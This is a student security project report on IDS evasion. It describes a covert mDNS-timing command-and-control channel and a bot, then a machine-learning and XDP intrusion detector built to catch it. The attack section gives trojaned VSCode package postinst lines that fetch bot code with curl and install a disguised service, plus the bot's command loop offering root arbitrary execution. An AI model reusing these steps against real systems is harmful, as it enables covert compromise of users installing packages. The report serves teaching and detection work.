

# Project 3
IDS Evasion and adaptive IDS strategies
Jacob Ellington and Nate Sales
[https://github.com/CS4404-Mission3](https://github.com/CS4404-Mission3)

# Introduction
Many systems, from massive enterprise networks down to individual hosts, rely on Intrusion Detection Systems (IDS) as a part of their network security model. While they don't usually prevent attacks, they can detect them early in the attack sequence and help with a fast and effective remediation. If malware were able to avoid detection by an IDS, it would have the potential to cause significant damage, disruption, or loss to an organization. It is critical that an IDS be able to identify ever-evolving malicious software while keeping false positives to a minimum. Too many false positives would void the security goals of the IDS as IT security staff would likely being ignoring alerts or turn the system off entirely. We don't want to create the boy who called botnet. 


# Reconnaissance

## Packet Inspection
Tools such as Bro, Snort, and Suricata can inspect the content of packets on the network. These are usually installed on a firewall or on endpoints as it needs to be on-path for all packets. 

### Strengths
* Examines packet payloads themselves to check for malicious payloads
* Easily applies signature-based filtering

### Weaknesses
* Most traffic nowadays is TLS encrypted, so the contents cannot be inspected
* Signature-based methods do nothing against zero days or bespoke attacks

### Deployment
For packet inspection to work, the IDS must be on-path for all communications on the network. In configurations where they are used as an IPS such as using snort alerts to generate firewall rules, the IPS must be in path. This means that these tools are usually installed on a network-wide firewall for on individual endpoints, depending on the use case. The software simply needs privileges to access pcap and capture packets from the NIC. Alerts may be written to a log, used to perform actions such as firewalling, or sent via slack or email to a member of IT. 

### Performance
Bro and snort are both single-threaded applications. This becomes problematic as server hardware and software is becoming increasingly focused on parallelism over single-core performance, meaning they cannot take advantage of the hardware it runs on. Bro or Snort becoming overloaded could load to false negatives as packets are dropped or the service to go down altogether. Dropping packets or going compromises the security goals of the tool as it is no longer able to ensure that data flowing through the network can be trusted. The on path nature of these tools also causes security implications. This makes it likely that the packet inspector is installed on a piece of critical piece of hardware such as a firewall or router. Under a high load, snort / bro could compromise the availability of the network as a whole. To avoid this, bro / snort could be on dedicated hardware or even behind a load balancer with packet mirroring from the firewall or router. However, this adds a significant amount of complexity for the deployment and more points of failure. A tool is only effective if it's actually used and it's only actually used if its benefits outweigh the difficulty in deployment and upkeep.
  
References: [Performance Analysis of Snort using Network Function Virtualization](https://ieeexplore.ieee.org/document/8749024)

### Effect on attacker goals
For an attacker to evade detection via a deep packet inspection IDS, the communication method must blend in with standard traffic. If the bot's packets are easily recognized by a signature, they are easily detected by the IDS. The attacker could also simply implement TLS in their C2 communications so that the packet payloads could not be analyzed by the packet inspector.

## Flow Monitoring
Flow monitors are a lighter-weight network monitoring methodology; this allows for greater potential performance with lower overhead but also less capability as compared to deep packet inspection. For the purposes of this paper, we will focus on Cisco NetFlow. Typically, a router (in this case any device running Cisco's confusingly named IOS), will run a Flow Exporter. This is an agent that sends data about every packet flowing through the router to a Flow Collector server. This data is not the entire packet, rather it typically contains source IP, destination IP, payload type (UDP, TCP, etc...), and packet size. This data will be stored by the flow collector for analysis by an analysis application. 

### Strengths
* Lightweight: The load of packet processing, storage, and analysis is split over multiple hosts. All the router has to do is forward packet metadata.
* Scalable
* Allows time-domain analysis. Since packets are stored by the flow collector, the analysis application can look at the flows of traffic over time to detect more complicated patterns that could not be detected by analyzing any single packet.

### Weaknesses
* Limited information. The data provided by NetFlow is quite limited. It cannot do any analysis on payload so live malware scanning is out of the question. 

### Deployment
For a NetFlow deployment, I would start with a core router (or routing firewall), a database server, and a client machine. I would install an agent on the router that captures every packet going through the machine, collects its metadata, and sends it to the database server. The database server would have an agent which listens for connections from the router and stores the metadata in a relational database. Finally, I would have a client machine that connects into the database and can perform whatever custom analysis is needed on the data stored therein. 

### Performance
Unlike Deep Packet Inspection, NetFlow and those like it are quite per formant and scalable. Because the amount of data that is actually analyzed is quite small as compared to full packets, there is minimal overhead on the router. This means that the security goal of availability is unlikely to be compromised. Additionally, the distributed architecture allows more of the processing strain to be shared by multiple hosts and for the system to be fault tolerant. Even if the analysis engine goes down, the packet capture and storage components will be unaffected and the analysis engine can start working through the backlog when it comes back online. This also allows for easier centralization of data from multiple sources, such as routers from multiple company facilities all feeding into one central database, allowing for greater overall visibility into the network status. 
However, this performance is due to the fact that no analysis of packet content is done. This has security implications as NetFlow may not detect malicious payloads that a tool like snort would. However, the widespread use of end-to-end payload encryption reduces this comparative disadvantage.

### Effect on Attacker Goals
If the attackers know that a network is using NetFlow but not any other IDS, they could feel free to include obviously malicious, encrypted payload data but must be careful to conform to normal network data patterns in terms of source IP and transmission rates. The presence of NetFlow would dis-incentivize Denial of Service attacks. 

References: [Flow Monitoring Explained: From Packet Capture to Data Analysis With NetFlow and IPFIX](https://ieeexplore.ieee.org/document/6814316)


# Infrastructure

## VM Setup
For ease of use, we used our own Virtual Machines for this project rather than those provided by the class. However, our VMs were running Ubuntu 22.04 (with XFCE) so everything described in the infrastructure phase should work on the class VMs, provided they use python 3.10 or above (our scripts use `match` syntax which was added in 3.10).

Each VM was cloned from an Ubuntu 22.04 template with the following added packages: 
* XFCE-4 (not needed, just nice to have a GUI sometimes)
* Wireshark (only needed for debugging)
* Python 3.10.6 (required)
* python3-bitarray (for bit-level operations, required)
* scapy (packet capture and generation, required)

Apart from this, the machines have a standard Ubuntu configuration. This includes:
* No firewall
* No SE Linux
* No Apparmor
* No AV Scanner
* Avahi enabled

## Networking
The VMs are on a private network with addressing starting at 192.168.1.100. This network has internet access via NAT through a virtual Pf Sense Firewall (also serving as DNS and DHCP server). Internet access is not required to reproduce our bot procedures but was used to simulate traffic and to make our lives easier when configuring the VMs. As the bot does not have propagation capabilities, and the firewall was configured to drop any outgoing mDNS traffic, this was deemed safe by the group members.

## Traffic Simulation
We generate cover traffic with a Python script `sim.py` from the trafficsim repository.

The simulator makes a few type of queries:

- Google searches
- HTTP connections to common websites
- APT cache updates
- DNS queries to random Alexa top 1 million websites

We configure the traffic simulator by copying `sim.py` to the host in `/etc/trafficsim/sim.py`, then creating, reloading the daemon, and starting the service:

```bash
$ cat << EOF
[Unit]
Description=Traffic Simulator Service

[Service]
ExecStart=/usr/bin/python3 /etc/trafficsim/sim.py

[Install]
WantedBy=multi-user.target
EOF | sudo tee /etc/systemd/system/sim.service
$ sudo systemctl daemon-reload
$ sudo systemctl enable --now sim
```

We also use Avahi to generate mDNS traffic TODO

# Attack

This attack scenario is a targeted compromise of an enterprise environment such as the worm with logic bomb payload that struck the Saudi Aramco company. The attack sequence as a general overview is as follows: An attacker compromises a host on the network via a poisoned dpkg package. Meanwhile, one of the hosts on the network segment must have the c2 server installed. This could be an attacker machine on the network or a compromised machine communicating with a remote attacker through a reverse shell.

## Covert Channel
The covert channel used by the botnet was custom written for this project and implemented as a python library built on top of the scapy packet manipulation tool. Both the bot and C2 server implement this library for their communications. 

### Data payload
The communications for the botnet's C2 is a custom protocol dubbed AuRevior (get it, like Apple Bonjour). It is built on mDNS on UDP on IP. mDNS (Multicast DNS) is a common protocol for local network service discovery, implemented by daemons like `avahi` for Linux. It is very common for hosts to send large amounts of Multicast traffic of this protocol on an enterprise network to discover local services such as printers. AuRevior works by encoding bits as mDNS packets from different UDP source ports. These are sent is bursts or windows of 0.5 seconds and each window encodes 1 byte of payload data. This yields a transmission rate of 2 bytes per second. Each bit is encoded by whether or not an mDNS packet was sent from the corresponding source port during the window. By default, the AuRevior packet source ports range from 5350 to 5357. These packets all have a DNS qclass of 255 (any) to differentiate them from Pre/Post-ambles.

For example, if a user wanted to transmit the data `0xAA` (0b10101010) the user would send 4 mDNS packets within 0.5 seconds. The packets would originate from ports 5350, 5352, 5354, and 5356 respectivley. Conversley, if the user wanted to send `0x1` (0b00000001), they would send 1 mDNS packet in the 0.5 second frame, with a source port of 5357.

The payload of each mDNS packet is a standard mDNS query and does not encode any information*. Should an IDS inspect each individual packet, it would not find anything out of the ordinary. The information is encoded soleley by which packets were sent when. The payload has a variable length and the sender will transmit 1 byte every quarter second until it is finished. 

The transmit windows are so big and thus the data rate is so slow because we want to minimize the impact of network latency on data integrity and because we don't want the IDS to think we're trying to flood the network by transmitting massive amounts of mDNS traffic at once.

In short, the AuRevior protocol allows us to transmit data using normal packets, but the packets themselves do not contain any information. If an IDS were to look at each packet individually, they would see nothing other than a standard mDNS query. The data is conveyed simply by if the packet was sent or not in a given time-frame, so unless an IDS is able to keep track of packets in the time domain and detect that we're sending a lot of traffic at uneven intervals, they wouldn't notice anything. The other advantage to this approach is that, since all mDNS is broadcast, it is very hard to tell which host is the C2 server and which are the bots without reverse-engineering and decoding the communications, making the botnet significantly harder to stop once detected. 

### Preamble
Each transmission is preceded by a 4 byte preamble of values 0xAA, 0x55, 0xAA, 0x55. (every odd bit, every even bit, repeat). This serves three important purposes:
1- Indicates that a transmission is starting
2- Serves as a synchronization source as the 0.5 second windows are timed starting at the end of the preamble transmission
3- encodes the checksum for the following payload.

The first two are rather self explanatory, however the checksum encoding is more interesting. Remember how we said that nothing was encoded in the mDNS packets themselves? That was a lie. This is true for the data packets but not for the preamble packets. One of the fields of an mDNS packet is the `qclass` or query class field. In normal communications, this is almost always set to 1 for "Internet", however the RFC has 5 valid (although mostly deprecated) values for this field. The protocol takes the first 4 of these symbols and uses them to encode the binary values 00, 01, 10, and 11 respectively. This gets us 2 bits per packet and the preamble has 4 packets per frame. 2 bits/packet * 4 packets/frame * 4 frames/preamble = 32 bits of data which can be encoded in the preamble. For data integrity, AuRevior uses this to transmit a 16 bit checksum twice.

### Post-amble
While post-amble may not be a word, it is a part of the AuRevior transmission. This is 1 window of data with a value of `0xFF` and qclass of 1. This simply notifies the receiver that the transmission is finished and does not contain any further data. 

### Receiver Organization
The receiver system is made up of 4 classes: Packet, Frame, Stream, and Receiver. A packet will come across the sniffing interface and the Receiver will check if it contains IP, UDP, and DNS data. If it does, the receiver matches the source IP of the packet against active streams. If there is not an active stream from that source IP, it will create one. The packet is then passed to the stream object which handles frame timing logic. The packet is then passed to the current active frame object and parsed for its actual data. As soon as the window closes on a frame, the stream calls `finalize()` on the frame, which converts the data into a bit array and figures out whether the frame was a preamble, data, or post-amble. If the last frame was a post-amble, the stream finalizes itself by checking the data payload against the 2 copies of the checksum and converts the result to a string. A client can then retrieve any finalized strings from the Receiver object. The stream finalize function is shown below.

```python
    def finalize(self):
        """Stream final processing when terminator received"""
        self.finalized = True
        lasttime = 0
        for i in self.frames:
            # only parse data frames
            if i.flag != 0:
                continue
            try:
                data: str
                data = i.payload.tobytes().decode()
            except UnicodeError:
                logging.error("Bad data frame!")
                self.handle_bad_data()
                return
            self.payload += data
            # Give it a big rx window tolerance
            if lasttime != 0 and i.when - lasttime > 0.6:
                logging.error("Packet data out of order")
                self.handle_bad_data()
                return
            lasttime = i.when
        # Check integrity of received data
        payload_bits = bitarray.bitarray()
        payload_bits.frombytes(bytes(self.payload, "utf8"))
        calculated = calcsum(payload_bits)
        if calculated != self.checksum or calculated != self.checksum2:
            logging.error("Checksum failed!")
            logging.debug("Expected sums: {}, {}\n Got sum: {}".format(self.checksum, self.checksum2, calculated))
            self.handle_bad_data()
            return
        logging.debug("Got good checksum")
        logging.info("Completed stream from {}: {}".format(self.addr, self.payload))
```


## The Bot
The bot is an agent written in python, registered as a systemd service. It supports covert information exfiltration and arbitrary code execution.

### Installation
**Note: This will not work in the secnet environment as it requires internet access. To test, please install manually.**

The bot is installed as part of a tampered VScode dpkg package. the reason we chose this is that VScode is popular software which is *not* in Ububtu's default repositories, which means this is one of the few programs for Linux that is expected to be installed by root from a package downloaded from a website. This allows us to bypass Linux's package management security model. 
As part of the installation, the bot installs itself to `/usr/bin/avahi-ng` and registers and enables a systemd service by the same name. Avahi is the most common mDNS / Bonjour / Zeroconf utility for Linux, so an application called avahi-ng broadcasting mDNS packets should not raise suspicion from any curious sysadmin. The installer will also mask the real avahi-daemon service to prevent it from interfering with transmission. It also adds its own dependence, namely scapy and python3-bitarray, to those of VScode. This was done by disassembling the proper .deb file, modifying the DEBIAN files as shown below, and reassembling it with dpkg.

Additions to `DEBIAN/postinst`:
```bash
systemctl mask avahi-daemon
mkdir -p /etc/avahi-ng
curl -o /etc/avahi-ng/main.py https://raw.githubusercontent.com/CS4404-Mission3/bot/main/bot.py
curl -o /etc/avahi-ng/channel.py https://raw.githubusercontent.com/CS4404-Mission3/bot/main/channel.py
chmod +x /usr/bin/avahi-ng
curl -o /etc/systemd/system/avahi-ng.service https://raw.githubusercontent.com/CS4404-Mission3/bot/main/bot.service
systemctl daemon-reload
systemctl enable --now avahi-ng
```

Modifications to `DEBIAN/control`:
```
Depends: ca-certificates, libasound2 (>= 1.0.16), libatk-bridge2.0-0 (>= 2.5.3), libatk1.0-0 (>= 2.2.0), libatspi2.0-0 (>= 2.9.90), libc6 (>= 2.14), libc6 (>= 2.17), libc6 (>= 2.2.5), libcairo2 (>= 1.6.0), libcups2 (>= 1.6.0), libcurl3-gnutls | libcurl3-nss | libcurl4 | libcurl3, libdbus-1-3 (>= 1.5.12), libdrm2 (>= 2.4.38), libexpat1 (>= 2.0.1), libgbm1 (>= 8.1~0), libglib2.0-0 (>= 2.16.0), libglib2.0-0 (>= 2.39.4), libgtk-3-0 (>= 3.9.10), libgtk-3-0 (>= 3.9.10) | libgtk-4-1, libnspr4 (>= 2:4.9-2~), libnss3 (>= 2:3.22), libnss3 (>= 3.26), libpango-1.0-0 (>= 1.14.0), libsecret-1-0 (>= 0.18), libx11-6, libx11-6 (>= 2:1.4.99.1), libxcb1 (>= 1.9.2), libxcomposite1 (>= 1:0.4.4-1), libxdamage1 (>= 1:1.1), libxext6, libxfixes3, libxkbcommon0 (>= 0.4.1), libxkbfile1, libxrandr2, xdg-utils (>= 1.0.2), python3, python3-bitarray, scapy
```
The additional packages will cause the `dpkg -i` install operation to fail, but this is again normal for a manual installation, the user must simply run `apt --fix-broken install` and everything will work perfectly with them none the wiser. 

### Communication Logic
Shown below is the main loop of the bot.

```Python
def communicate():
	"""Handle communications with C2"""
    global rx
    for i in rx.messages:
        if i.finalized and i.payload[0] == "c" and (i.payload[1:5] == id or i.payload[1:5] == "0000"):
            logging.debug("got new command message: {}".format(i.payload))
            rx.tlock.acquire()
            rx.messages.remove(i)
            rx.tlock.release()
            load: str
            load = i.payload[5:]
            match load.split(":")[0]:
                case "ping":
                    handle_ping()
                case "info":
                    send_info()
                case "burnit":
                    burn()
                case "shutdown":
                    os.system("poweroff")
                case "abx":
                    arbitrary_exec(load[4:])
                case _:
                    logging.error("Bad command: {}".format(load))
```

## Command and Control
The bots use the C2 mDNS covert channel described in the "covert channel" section above. the bot constantly listens for mDNS traffic and will attempt to parse it. If the message is a command and is destined for the bot's ID (or the Multicast ID 0000), it will execute it and transmit a reply. The supported commands are: `ping`, `info`, `abx`, `shutdown`, and `burnit`. 

* The `ping` command is rather self explanatory: it instructs any bot on the network to send back a message containing its unique ID and the string 'ok'.
* The `info` command instructs the bot to send back its hostname, local IP, and OS version.
* The `abx` command precedes a string input by the user that the bot will execute with root privileges and then sends back the command's output.
* `shutdown` simply turns off a specified host
* `burnit` initiate's the bot's self-destruct mechanism, in which it uninstalls itself from the specified host and re-enables normal avahi. 

### Example commands
1) User Selection: Check Network Status, Sent data: `c0000ping`
2) User Selection: Run command `ls /` on host 3b27, Sent data `c3b27abx:ls /`
* `burnit` initiate's the bot's self-destruct mechanism, in which it uninstalls itself from the specified host. 


### User Interface
The C2.py program must be run from a machine on the same network segment with root privileges, but this could be easily accomplished by a modified dpkg file as discussed above. Once installed, the attacker is presented with a user interface as shown below.


*Figure: The main menu of the C2 command line interface*


*Figure: the C2 interface showing the network status and host info commands*


*Figure: the C2 interface showing the `ls` command being executed on a bot*

This interface provides the above commands and serves as a wrapper around the channel.py communication suite. A video demonstrating the use of this tool along with a Wireshark capture demonstrating the mDNS traffic it generates was uploaded along with this document to Instruct Assist.

## IDS

Our IDS consists of two parts: an adaptive machine learning model that reads packets from a NIC with libpcap in userspace, and a hardware offload component using XDP for high throughput processing on hardware capable of kernel bypass networking.

### Signatures and Traffic Classification with Directed Acyclic Graphs

At a high level, IDS apply known attack signatures to a traffic stream and fire an alert if a match is found. We chose to use Directed Acyclic Graphs (DAGs) to store and evaluate our IDS signatures. A DAG is a graph where logic flows in one direction only (*directed*) and doesn't contain loops (*acyclic*). When a packet is received by the IDS, it's first serialized into a minimal packet structure that includes fields from the UDP and DNS headers, as well as the time since a packet with the same header information was last seen.

```go
// Packet represents the combined UDP and DNS layers of a packet
type Packet struct {
	IsMalicious         bool
	TimeSinceLastPacket time.Duration

	// UDP header
	SourcePort uint16

	// DNS query fields
	QClass uint16
	QType  uint16
	QName  string

	// DNS header flags
	AA bool // Authoritative answer
	TC bool // Truncated
	RD bool // Recursion desired
	RA bool // Recursion available
}
```

The packet then enters the global DAG for evaluation. It's compared against each field in our internal `Packet` structure defined above against the stored IDS filter DAG. Graphs are built such that if the packet doesn't match a graph node, it's immediately discarded as not malicious. This speeds up processing time because in normal operation, most packets on a network won't be malicious. Every millisecond the IDS spends processing a packet, the less traffic it will be able to handle overall.


An IDS DAG to detect our C2 covert channel is shown above. This signature detects the timing anomaly created by our C2 protocol compared to normal mDNS traffic. Timing based communication protocols are hard to detect by hand - in fact, this entire DAG and every signature for our IDS were learned by the IDS itself!

With enough time, it's usually possible for a human to craft a signature to match some sort of malicious traffic. This may be effective for a few signatures, but doesn't scale well for a large IDS aiming to classify complex protocols like our mDNS packet timing based approach.

### Machine Learning for Intrusion Detection Systems

Our solution to this scaling problem is to employ machine learning to classify traffic patterns. This has the benefit of being generally applicable to many types of malicious traffic, and can be rapidly improved to classify new attacks. Models can use many parameters - far more than a human researcher could keep track of for manually-created attack signatures.

Using a ML-based IDS has the obvious downside of loosing visibility into why a signature matches an attack pattern. IDS are only useful if the results they produce are actionable, so a model that creates a massive and unintelligible signature is not useful.

### Iterative Dichotomiser 3

Iterative Dichotomiser 3 (ID3) is an algorithm used to generate decision trees from a dataset. It serves a similar purpose to a recurrent neural network (RNN), but with the significant benefit that the generated classifier is easily interpretable; ID3 produces a tree of logic expressions rather than a graph of weights produced by a RNN.

ID3 takes a list of parameters and a list of entries that have such parameters. For example, we pass a stream of packet information to ID3 and it classifies a packet as malicious or non-malicious based on learned patterns of header attributes.

The ID3 algorithm is based upon two primitives:

**Entropy** is the measure of uncertainty ("randomness") in the dataset.


We compute entropy of a set *E(S)* such that S is the dataset for the current recursive step. *X* represents the set of attributes in *S* for ID3 to classify.

**Information Gain** is the measure of entropy with respect to a given attribute.


After splitting a dataset *S* by an attribute, we  compute the information gain between the two sections of set to determine the entropy gained by splitting the set *S* by attribute *A*.

ID3 uses a recursive process involving repeated splitting of a dataset to form the decision tree. This is where it gets it's name Iterative Dichotomiser: iterative referring to multiple iterations through the dataset, and dichotomy referring to splitting the data during each iteration.

1. Compute the entropy of each attribute in the dataset
2. Spit the dataset using the least entropic attribute (highest I-Gain)
3. Begin the decision tree for entries containing this attribute
4. Recurse on subsets of all remaining attributes

### IDS ML Architecture


Our IDS combines an ID3 model with an ephemeral state table, temporal preprocessor and tree compressor for optimization and filtering.

### Temporal Preprocessor

Our IDS needs to be able to process temporal information in order to detect our timing-based covert channel. Recurrent Neural Networks have this ability inherently, but ID3 does not. We maintain a small amount of state for a limited lifetime on the IDS to record timing information for each packet. The state table is keyed by a hash of the packet including it's source port, query class, type and name, as well as the AA, TC, RD, and RA flags. We round timestamps to the nearest 100ms to account for variability in network latency (jitter).

Stateful IDS are dangerous as a network defender. An attacker wishing to overwhelm the IDS can generate lots of dissimilar traffic in order to fill the system's state table. Our IDS is designed to detect timing based cover channels, so it needs some sort of state. Our implementation uses a limited ephemeral state table that maps packets to the time they arrived at the IDS. The IDS will flush it's state table at a configurable time interval and state capacity threshold. These parameters should be tuned for the hardware capacity of the IDS machine - in our case, a 5 second cache retention and 100,000 entry capacity limit fit well within our VM specifications.

### Postprocessor

Once the IDS has generated a signature DAG with ID3, the "Heavy DAG" is ran through a series of postprocessing steps to produce a smaller, optimized "Light DAG". The first step is tree compression by removing redundant intermediate nodes. The IDS traverses the tree to find nodes who's children all result in the same classification outcome. Because our graph is both directed and doesn't contain loops, if such a node exists, it can simply be replaced with a leaf node of the common outcome. Next, the IDS applies two branch filtering rules: first, a string can be used to exclude entire branches from the graph. This is useful to filter for only the`dns-sd._udp_local` query name in Avahi mDNS discovery packets. Secondly, the maximum branch length can be configured to exclude patterns that were detected as a side effect of the "correlation != causation" problem. In our IDS, we require branches to have at least 5 nodes to filter out patterns in inconsequential timing irregularities that ID3 (correctly) detected as a pattern.

### Training

We trained our IDS on two datasets: a clean set consisting of a mixture of Avahi background traffic and random DNS queries to Alexa top 1M websites, and a malicious dataset consisting of solely our C2 covert channel traffic.

The training program reads packets from an interface and logs them to a CSV file:

```
$ head -n 5 training.csv
IsMalicious,TimeSinceLastPacket,SourcePort,QClass,QType,QName,AA,TC,RD,RA
false,0s,38934,1,12,_services._dns-sd._udp.fakedomain.com.,false,false,true,false
false,2.5s,53,1,12,_services._dns-sd._udp.fakedomain.com.,false,false,true,true
false,0s,5353,1,12,_services._dns-sd._udp.local.,false,false,false,false
false,0s,5353,1,12,_services._dns-sd._udp.local.,false,false,false,false
```

#### Collecting the clean dataset

We started by unmasking and starting `avahi-daemon` on each of the 4 VMs with `sudo systemctl unmask avahi-daemon && sudo systemctl start avahi-daemon`, then ran `avahi-discover` to encourage Avahi to send more traffic in order to speed up our data collection. We then started our DNS traffic simulator with `sudo systemctl start sim` (see our Infrastructure setup section for more information about the traffic simulator). With background traffic in action, we started data collection by running our IDS with the `-t` flag for training mode and `-c` to indicate that we're supplying clean training traffic.

```bash
$ sudo ./ids -i ens18 -t -c
INFO[0000] Running in training mode with clean=true     
INFO[0000] Listening on ens18
```

We then waited for the IDS to record about a thousand packets:

```bash
$ watch 'wc -l training.csv'
Every 2.0s: wc -l training.csv orion: Sun Dec 11 23:48:50 2022

1074 training.csv
```

#### Collecting the malicious dataset

To collect our dataset of malicious traffic, we masked and stopped `avahi-daemon` with `sudo systemctl mask avahi-daemon && sudo systemctl stop avahi-daemon`, then stopped our traffic simulator with `sudo systemctl stop sim`. We then started our C2 interface and ran queries to the bots to list their status and run UNIX commands on their host systems.

```
$ sudo python3 c2.py
initializing communications...
                                    C2 Interface v0.1                                     
------------------------------------------------------------------------------------------

Main Menu:

1) Check Network Status
2) Query Host Information
3) Run Command
4) Danger Zone
5) Exit

Warning: network status may be out of date, please re-test connections.

 Please Select an Option: 1
Sending command, please wait...
sent
```

Just like for the clean dataset, we collected around a thousand malicious packets. We then manually removed any spurious DNS packets from Ubuntu's telemetry/update processes.

#### Model Benchmarking

We needed an immediate metric to evaluate our model's performance. Supplying the `-bench` flag to the IDS program takes a random half of the dataset, trains the model on it, then evaluates each packet in the other random half against the model. With a tuned preprocessor, tree compression, and branch filter, our model detects malicious packets with ~96% accuracy. The training program prints the information gains for each attribute - the ID3 metric that indicates how much influence a given attribute has over the outcome. As expected, the query name has a high significance in the outcome. We trained the model on unicast DNS traffic in addition to mDNS, so all query names and types that don't match the mDNS format can be immediately discarded as benign. The model also accurately detects that our covert channel uses abnormal source ports and packet timing.

```bash
$ ./ids -bench
Training on 1073/2147 packets
96.09% model accuracy
Information Gains:
0.9385: QName
0.8993: SourcePort
0.8433: QType
0.8006: TimeSinceLastPacket
0.7951: RD
0.7649: QClass
0.2775: RA
0.0090: AA
0.0000: TC
```

### Detecting malicious traffic

```bash
$ sudo ./ids -i ens18
INFO[0000] Running in IDS mode                          
INFO[0000] Training ID3 model on 2147 packets           
INFO[0000] TimeSinceLastPacket gain: 0.805587           
INFO[0000] SourcePort gain: 0.904517                    
INFO[0000] QClass gain: 0.770919                        
INFO[0000] QType gain: 0.844262                         
INFO[0000] QName gain: 0.939198                         
INFO[0000] AA gain: 0.007857                            
INFO[0000] TC gain: 0.000000                            
INFO[0000] RD gain: 0.807426                            
INFO[0000] RA gain: 0.282792                            
INFO[0000] Listening on ens18                       
WARN[0007] Detected malicious packet from 192.168.1.101:5353: {"AA":"false","IsMalicious":"true","QClass":"255","QName":"_services._dns-sd._udp.local.","QType":"12","RA":"false","RD":"false","SourcePort":"5353","TC":"false","TimeSinceLastPacket":"1s"}
```

### DAG Output

After training, the IDS writes its signature DAG to files in human readable form: both a GraphViz chart and a pseudocode graph. See `graph.txt` in this directory for the pseudocode output.

*GraphViz syntax for flowchart:*

```
digraph {
  QName -> "_services__dns_sd__udp_local_" -> TimeSinceLastPacket

  TimeSinceLastPacket -> "4s" -> QClass
  QClass -> "255" -> true // Branch length 6

  TimeSinceLastPacket -> "0s" -> SourcePort
  SourcePort -> "5356" -> true // Branch length 6
  SourcePort -> "5351" -> true // Branch length 6
  SourcePort -> "5355" -> true // Branch length 6
  SourcePort -> "5357" -> true // Branch length 6
  SourcePort -> "5353" -> QClass -> "4" -> true // Branch length 8
  SourcePort -> "5350" -> true // Branch length 6
  SourcePort -> "5352" -> true // Branch length 6
  SourcePort -> "5354" -> true // Branch length 6

  TimeSinceLastPacket -> "1s" -> SourcePort
  QClass -> "0" -> true // Branch length 6
}
```


## Offloading IDS functionality to hardware with eBPF and XDP

Our adaptive IDS uses libpcap to read network frames from the NIC. This model depends on a complex datapath between the network and the IDS:

1. NIC hardware receives bytes on the wire and assembles a frame
2. Fires an interrupt to signal the kernel to dispatch a read worker to read the packet from one of the NIC's receive queues
3. Our userspace IDS program in Go calls libpcap to apply a BPF filter to the stream
4. Loads matching packets into userspace memory
5. gopacket parses packet headers
6. IDS can now filter on header fields

This datapath is slow. Every matching packet that reaches the system is copied to userspace for analysis. We could use a modified sampling rate where only N percent of packets are processed by the IDS, but this would miss valuable traffic that may be malicious. We chose to design a second IDS that runs in conjunction with our adaptive userspace IDS to handle large packet floods in case our adaptive IDS is overwhelmed by a large packet flood. The kernel will start intentionally dropping packets to maintain system stability, and the userspace program has so much accumulated overhead from the kernel datapath that even if the kernel could keep up, the userspace program would not.

### Berkeley Packet Filter

The Berkeley Packet Filter, or BPF, is an interface for processing network traffic. It's initial version (now called Classic BPF or cBPF) was released in the 90s and is used by libpcap for coarse filtering. cBPF is still widely used - tcpdump filter strings are compiled to cBPF for use in libpcap. We use cBPF in our adaptive IDS to only copy UDP packets into our program.

The Linux Kernel provides an extended version of BPF (eBPF) that adds to cBPF syntax with a flexible filtering language complete with maps for kernel/userspace data sharing, tracing, and a LLVM-compatible JIT compiler. eBPF programs are compiled to LLVM bytecode, which is then JIT compiled to a machine readable format.

This is only one peice of the puzzle. eBPF provides packet processing capability, but we still need a way to interrupt the standard kernel network datapath to insert our eBPF program. The kernel has as solution for this too. eXpress Data Path, or XDP, is a kernel feature that uses eBPF bytecode to load rich logic into a system's network stack. XDP programs are directly attached to an interface and can run either in the kernel within the NIC's driver, or directly on certain NIC hardware ASICs.

Our "offload IDS" uses XDP and eBPF to offload our entire detection pipeline into the NIC hardware. Our VMs are using virtio virtualized NICs, so in reality this behavior is virtualized, but this would work on real hardware (nfp and i40e NICs, for example).

### Alerting from NIC hardware to userspace

The offload IDS needs some way to pass alert information to userspace where it can alert network operators. This is a bit tricky - the XDP program runs on the NIC, so it needs to talk to the CPU over some hardware interface (PCIe), get picked up by the kernel, then copied to userspace. Luckily, BPF provides this functionality internally. We define the `bpf_printk` function to send a string to to BPF's `bpf_trace_printk` function.

```c
#define bpf_printk(fmt, ...)                           \
({                                                     \
	       char ____fmt[] = fmt;                       \
	       bpf_trace_printk(____fmt, sizeof(____fmt),  \
				##__VA_ARGS__);                        \
})
```

`bpf_trace_printk` uses the kernel's tracing API to send a string to the kernel tracepipe. These messages are viewable from userspace at `/sys/kernel/debug/tracing/trace_pipe`. A kernel trace endpoint may seem like a strange place for IDS alerts, but it has two features that make it ideal for network messaging: It has built in queuing and acts as a capacity limited FIFO when load increases. We'll see how this works in action later.


### Packet processing with XDP

Our offload IDS defines an XDP program section `SEC("prog")` to indicate where XDP should pass a frame context:

```c
SEC("prog")
int xdp_prog_main(struct xdp_md *ctx) {
    void *data_end = (void *)(long)ctx->data_end;
    void *data = (void *)(long)ctx->data;
    ...
```

`data` and `data_end` store the ethernet frame bytes, so our next step is parsing the Ethernet, IP, and UDP headers, while discarding packets that we don't care about:

```c
struct ethhdr *eth = data;
if (eth + 1 > (struct ethhdr *)data_end) {
	return XDP_DROP;
}
if (unlikely(eth->h_proto != htons(ETH_P_IP))) {
	return XDP_PASS;
}

